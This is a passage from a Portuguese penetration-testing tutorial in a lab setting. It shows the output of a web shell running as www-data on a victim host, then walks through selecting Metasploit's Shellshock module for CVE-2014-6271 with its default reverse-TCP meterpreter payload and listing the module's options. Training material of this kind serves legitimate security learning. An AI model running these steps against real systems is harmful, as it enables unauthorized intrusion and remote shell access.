 ```console

ls
QK828.php
chat
drupal
payroll_app.php
phpmyadmin
rat7YM.php
pwd
/var/www/html
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Neste exemplo a vítima tem o IP 192.168.56.6, o atacante o 192.168.56.5.

Para mais informação leia:
* <https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_modcopy_exec/>


#### Explorando com o ``apache_mod_cgi_bash_env_exec``

Este *exploit* se utiliza da vulnerabilidade chamada [Shellshock](), na qual o Bash trata de variáveis de ambiente. Neste *exploit* são utilizados *scripts* CGI no Apache para configurar a variável ``HTTP_USER_AGENT`` para fins maliciosos.

```console
msf6 > search apache_mod_cgi

Matching Modules
================

   #  Name                                             Disclosure Date  Rank       Check  Description
   -  ----                                             ---------------  ----       -----  -----------
   0  exploit/multi/http/apache_mod_cgi_bash_env_exec  2014-09-24       excellent  Yes    Apache mod_cgi Bash Environment Variable Code Injection (Shellshock)
   1  auxiliary/scanner/http/apache_mod_cgi_bash_env   2014-09-24       normal     Yes    Apache mod_cgi Bash Environment Variable Injection (Shellshock) Scanner


Interact with a module by name or index. For example info 1, use 1 or use auxiliary/scanner/http/apache_mod_cgi_bash_env

msf6 > use 0
[*] No payload configured, defaulting to linux/x86/meterpreter/reverse_tcp
msf6 exploit(multi/http/apache_mod_cgi_bash_env_exec) > options

Module options (exploit/multi/http/apache_mod_cgi_bash_env_exec):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   CMD_MAX_LENGTH  2048             yes       CMD max line length
   CVE             CVE-2014-6271    yes       CVE to check/exploit (Accepted: CVE-2014-6271, CVE-2014-6278)
   HEADER          User-Agent       yes       HTTP header to use
   METHOD          GET              yes       HTTP method to use
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                           yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPATH           /bin             yes       Target PATH for binaries used by the CmdStager
   RPORT           80               yes       The target port (TCP)
```